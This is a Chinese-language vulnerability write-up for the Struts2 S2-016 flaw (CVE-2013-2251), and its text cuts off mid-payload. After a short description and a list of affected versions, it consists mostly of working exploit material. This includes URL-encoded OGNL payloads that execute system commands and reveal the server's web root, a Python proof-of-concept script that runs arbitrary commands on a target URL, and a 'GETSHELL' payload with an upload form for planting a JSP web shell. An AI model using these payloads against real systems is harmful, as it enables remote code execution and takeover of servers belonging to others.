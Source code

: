 （CVE-2013-2251）s2-016
=======================

一、漏洞简介
------------

DefaultActionMapper类支持以\"action:\"、\"redirect:\"、\"redirectAction:\"作为导航或是重定向前缀，但是这些前缀后面同时可以跟OGNL表达式，由于struts2没有对这些前缀做过滤，导致利用OGNL表达式调用java静态方法执行任意系统命令

二、漏洞影响
------------

Struts2.0.0 - Struts2.3.15

三、复现过程
------------

图片.png**任意命令执行**

    redirect:%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass%28%29.getDeclaredField%28%27allowStaticMethodAccess%27%29%2C%23f.setAccessible%28true%29%2C%23f.set%28%23_memberAccess%2Ctrue%29%2C@org.apache.commons.io.IOUtils@toString%28@java.lang.Runtime@getRuntime%28%29.exec%28%27id%27%29.getInputStream%28%29%29%7D
    ?redirect:
    ${#a=new java.lang.ProcessBuilder(new java.lang.String[]{"netstat","-an"}).start().getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new java.io.BufferedReader(#b),#d=new char[51020],#c.read(#d),#screen=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),#screen.println(#d),#screen.close()}

**爆网站路径EXP**

     ?redirect%3A%24%7B%23req%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletRequest%27%29%2C%23a%3D%23req.getSession%28%29%2C%23b%3D%23a.getServletContext%28%29%2C%23c%3D%23b.getRealPath%28%22%2F%22%29%2C%23matt%3D%23context.get%28%27com.opensymphony.xwork2.dispatcher.HttpServletResponse%27%29%2C%23matt.getWriter%28%29.println%28%23c%29%2C%23matt.getWriter%28%29.flush%28%29%2C%23matt.getWriter%28%29.close%28%29%7D

**python执行任意命令poc**

    import urllib2,sys,re

    def get(url, data):
        string = url + "?" + data
        req = urllib2.Request("%s"%string)
        response = urllib2.urlopen(req).read().strip()
        print strip(response)

    def strip(str):
       tmp = str.strip()
       blank_line=re.compile('\x00')
       tmp=blank_line.sub('',tmp)
       return tmp

    if __name__ == '__main__':
        url = sys.argv[1]
        cmd = sys.argv[2]
        cmd1 = sys.argv[3]
        attack="redirect:${%%23a%%3d(new%%20java.lang.ProcessBuilder(new%%20java.lang.String[]{'%s','%s'})).start(),%%23b%%3d%%23a.getInputStream(),%%23c%%3dnew%%20java.io.InputStreamReader(%%23b),%%23d%%3dnew%%20java.io.BufferedReader(%%23c),%%23e%%3dnew%%20char[50000],%%23d.read(%%23e),%%23matt%%3d%%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%%23matt.getWriter().println(%%23e),%%23matt.getWriter().flush(),%%23matt.getWriter().close()}"%(cmd,cmd1)
        get(url,attack)

**GETSHELL EXP**

    ?redirect:${
    %23req%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),
    %23p%3d(%23req.getRealPath(%22/%22)%2b%22test.jsp%22).replaceAll("\\\\", "/"),
    new+java.io.BufferedWriter(new+java.io.FileWriter(%23p)).append(%23req.getParameter(%22c%22)).close()
    }&c=%3c%25if(request.getParameter(%22f%22)!%3dnull)(new+java.io.FileOutputStream(application.getRealPath(%22%2f%22)%2brequest.getParameter(%22f%

然后用以下代码写shell:

    <form action="http://www.0-sec.org/acdap/test.jsp?f=1.jsp" method="post">
    <textarea >code